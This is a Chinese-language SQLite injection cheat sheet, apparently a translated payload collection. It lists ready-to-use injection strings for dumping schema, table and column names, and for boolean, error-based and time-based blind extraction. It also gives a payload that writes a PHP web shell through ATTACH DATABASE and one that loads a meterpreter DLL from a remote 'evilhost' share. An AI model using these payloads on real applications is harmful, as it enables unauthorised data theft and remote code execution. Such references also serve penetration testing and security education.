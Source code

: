 # SQLite 注入

## 摘要

* [SQLite 注释](#sqlite-comments)
* [SQLite 版本](#sqlite-version)
* [基于字符串 - 提取数据库结构](#string-based---extract-database-structure)
* [基于整数/字符串 - 提取表名](#integerstring-based---extract-table-name)
* [基于整数/字符串 - 提取列名](#integerstring-based---extract-column-name)
* [布尔型 - 计算表的数量](#boolean---count-number-of-tables)
* [布尔型 - 枚举表名](#boolean---enumerating-table-name)
* [布尔型 - 提取信息](#boolean---extract-info)
* [布尔型 - 基于错误](#boolean---error-based)
* [基于时间](#time-based)
* [使用 SQLite 命令执行远程命令 - 附加数据库](#remote-command-execution-using-sqlite-command---attach-database)
* [使用 SQLite 命令执行远程命令 - 加载扩展](#remote-command-execution-using-sqlite-command---load_extension)
* [参考资料](#references)

## SQLite 注释

```sql
--
/**/
```

## SQLite 版本

```sql
select sqlite_version();
```

## 基于字符串 - 提取数据库结构

```sql
SELECT sql FROM sqlite_schema
```

## 基于整数/字符串 - 提取表名

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## 基于整数/字符串 - 提取列名

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

为了更清晰的输出

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

更清晰的输出

```sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
```

## 布尔型 - 计算表的数量

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

根据您提供的文档内容，以下是翻译：

## 布尔值 - 枚举表名

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## 布尔值 - 提取信息

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## 布尔值 - 提取信息（排序）

```sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
```

## 布尔值 - 基于错误

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## 基于时间

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## 使用SQLite命令执行远程命令 - 附加数据库

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

## 使用SQLite命令执行远程命令 - 加载扩展

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

注意：默认情况下此组件是禁用的

## 参考资料

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
[SQLite Error Based Injection for Enumeration](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
